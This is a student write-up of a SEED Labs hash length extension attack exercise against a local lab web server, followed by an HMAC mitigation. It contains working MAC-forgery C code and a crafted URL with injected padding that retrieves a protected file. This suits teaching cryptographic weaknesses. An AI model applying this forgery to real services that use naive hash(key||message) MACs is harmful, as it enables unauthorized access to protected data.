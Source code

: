 # Report 3: Hash Length Extension Attack Lab

In this lab we will explore how we can compromise a Mac by expanding an intercepted message without knowing the key.
To do this, we will first need to set up the lab environment. Firstly, we download the zip and build the **docker image**. Then we need to change the **/etc/hosts** file and add a new address to it, that being:

```sh
10.9.0.80 www.seedlab-hashlen.com
```

With this we are finally ready to start the lab.

## Task 1: Send Request to List Files

In order for the website to list all it's files we need to craft a request in the following way:

```sh
http://www.seedlab-hashlen.com/?myname=<name>&uid=<need-to-fill>&lstcmd=1&mac=<need-to-calculate>
```
Firstly the **lstcmd** needs the value of **1** to execute this type of request and the link above is also missing 3 arguments: **myname**, **uid** and **mac**
For this lab we will be using the name **Eduardo** and we will choose a uid from the **key.txt** in the LabHome directory. We see what is contained in the file in the image bellow:

![Output of key.txt](images/image1.PNG)

For this lab we chose the uid of **1005** which has a corresponding key of **xciujk**. And with those 3 values we can calculate the mac for the user **Eduardo** with the uid of **1005** by executing the command bellow:

```sh
$ echo -n "xciujk:myname=Eduardo&uid=1005&lstcmd=1" | sha256sum
```

This command results in the following:

![Hash created using the message "xciujk:myname=Eduardo&uid=1005&lstcmd=1"](images/image2.PNG)

As we can see the **mac** obtained is: **ee73e3a3dfc4f7dd24bfa90a766efc79d6d9f1df31e7c2bb7c1c73404c669d3f**.
Now, equiped with the 3 arguments, we can craft the completed URL.

```sh
http://www.seedlab-hashlen.com/?myname=Eduardo&uid=1005&lstcmd=1&mac=ee73e3a3dfc4f7dd24bfa90a766efc79d6d9f1df31e7c2bb7c1c73404c669d3f
```

When we seen it using the browser we obtain the following:

![The resulting web page when using the url](images/image3.PNG)

The image shoes that our **MAC** is valid and shows us the two files in the directory, those being **secret.txt** and **key.txt**!

## Task 2: Create Padding

Now that we know how the website works, it is time to try to attack it! To do that we must first understand how padding is calculated for a one-way hash.
The block size of **SHA 256**is 64 bytes, so a message will be padded in blocks of 64 bytes during the hash calculation. The padding consists of one byte of **\x80** followed by many 0s and finally an **8 byte** length field with the length of the hashed message.
So, our message: **xciujk:myname=Eduardo&uid=1005&lstcmd=1**, consists of **39 bytes**. So the length of our padding will be **64-39= 25 bytes**. The length of our message will be **39*8=312 bits**. **312  bits** in hex is **\x01\x38**. So our padding will be:

```c
"\x80"
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
"\x00\x00\x00\x00\x00\x00"
"\x00\x00\x00\x00\x00\x00\x01\x38"
``` 
With that done we can begin with the next task.

## Task 3: The Length Extension Attack

Finally, we can start the attack! For this we will need 2 things: a MAC for a valid request and the size of the MAC key. 
In **Task 1** we calculated the MAC for the message: **xciujk:myname=Eduardo&uid=1005&lstcmd=1**, that being **ee73e3a3dfc4f7dd24bfa90a766efc79d6d9f1df31e7c2bb7c1c73404c669d3f**. We also know the size of the key **xciujk** which is **6**!
With this we can add a **new message** to the end of the padding and create a valid MAC without knowing the key!
For that we will use a program called **length_ext.c** that can create a new valid **MAC** with our custom message added at the end!
The program is written bellow:

```c
#include <stdio.h>
#include <arpa/inet.h>
#include <openssl/sha.h>

int main(int argc, const char *argv[])
{
    int i;
    unsigned char buffer[SHA256_DIGEST_LENGTH];
    SHA256_CTX c;
    SHA256_Init(&c);
    for(i=0; i<64; i++)
        SHA256_Update(&c, "*", 1);

    // MAC of the original message M (padded)
    c.h[0] = htole32(0xee73e3a3);
    c.h[1] = htole32(0xdfc4f7dd);
    c.h[2] = htole32(0x24bfa90a);
    c.h[3] = htole32(0x766efc79);
    c.h[4] = htole32(0xd6d9f1df);
    c.h[5] = htole32(0x31e7c2bb);
    c.h[6] = htole32(0x7c1c7340);
    c.h[7] = htole32(0x4c669d3f);

    // Append additional message
    SHA256_Update(&c, "&download=secret.txt", 20);
    SHA256_Final(buffer, &c);

    for(i = 0; i < 32; i++) {
        printf("%02x", buffer[i]);
    }
    printf("\n");
    return 0;
}
``` 
In the program above we write our valid **MAC** in **c** and we add our extra message, that being **&download=secret.txt** that should allow us to download the website's secret file!
We can compile the program using the following command:

```sh
$ gcc length_ext.c -o length_ext -lcrypto
```
Running the code results in the following image:

![Generation of our New MAC](images/image4.PNG)

So the new MAC is: **b538ace34729fd01ec13ada2fb028860a6a01e88a8c972982a1a9cf6bb7527fb**! With this we can finally craft our url and see if it works. The following is the URL:

```sh
http://www.seedlab-hashlen.com/?myname=Eduardo&uid=1005&lstcmd=1%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%38&download=secret.txt&mac=b538ace34729fd01ec13ada2fb028860a6a01e88a8c972982a1a9cf6bb7527fb
```

When we input the following URL in the browser we get the following:

![Our URL was successful in attacking the website](images/image5.PNG)

It worked! The **secret.txt** was accessed, but how did it work? What we did was take a legitimate MAC and calculated its padding. We then add the padding to the hash and simply add our new data in hashed form to the end of it, this way we create a legitimate MAC with our data without knowing the key! This happened because **SHA 256** does not hide the length of the original message making it possible to find the padding and attach custom data to the end of the hash.

## Task 4: Attack Mitigation using HMAC

Now that we have done the attack, how can we protect the website from it?
The answer is in using **HMAC**. Firstly we will modify the server's program and use python's **hmac** to implemente a more secure **verify_mac()**. We can implement the code by adding the following lines to **verify_mac()** in lab.py:

```py
real_mac = hmac.new(bytearray(key.encode(´'utf-8')),
msg=message.encode('utf-8', 'surrogateescape'),
digestmod=hashlib.sha256).hexdigest()
``` 

This way we are creating a HMAC for the uid keys, just like in **Task 1** we will generate a MAC to list all the files on the website's directory. But we will have to use a dedicated program as to generate a HMAC is a bit more complex than just using **SHA 256**. The following is a dedicated program to generate an **HMAC** for our uid key of **xciujk**:

```py
import hmac
import hashlib
key='xciujk'
message='myname=Eduardo&uid=1005&lstcmd=1'
mac = hmac.new(bytearray(key.encode('utf-8')),
msg=message.encode('utf-8', 'surrogateescape'),
digestmod=hashlib.sha256).hexdigest()
print(mac)
``` 

The program returns the following:

![Generating our HMAC for our message](images/image6.PNG)

The HMAC generated is: **e0af6ca214fc8480c46da109d337ebf672cc85e8a84e626a6ec5a18097981189**! We can now craft our URL just like in **Task 1**. The following is the new URL:

```sh
http://www.seedlab-hashlen.com/?myname=Eduardo&uid=1005&lstcmd=1&mac=e0af6ca214fc8480c46da109d337ebf672cc85e8a84e626a6ec5a18097981189
```

When we access the url this is what we find:

![The Website now works with HMAC](images/image7.PNG)

So we made the site use **HMAC**! But why is this implementation more secure?
**HMAC** utilizes a secret key to derive two different keys: the inner key and the outer key. These keys are derived using a specific algorithmic process, usually involving XOR operations with predefined constants.
HMAC applies the hashing process twice. Initially, it takes the message and the inner key, concatenates them, and then computes the hash of this concatenated value. Subsequently, it hashes the result of the first hash operation concatenated with the outer key.
This two-step process makes HMAC immune to length extension attacks. In such attacks, an adversary attempts to append data to the original message without knowing the secret key. However, since HMAC incorporates the secret key into both the key derivation and the hashing process, it's practically impossible for an attacker to generate a valid HMAC for a modified message without the secret key. SO the website is immune to hash length attacks while using  **HMAC**! 

### Authored by:
    Eduardo Ramos, up201906732
    Leandro Silva, up202008061
    Luís Paiva, up202006094
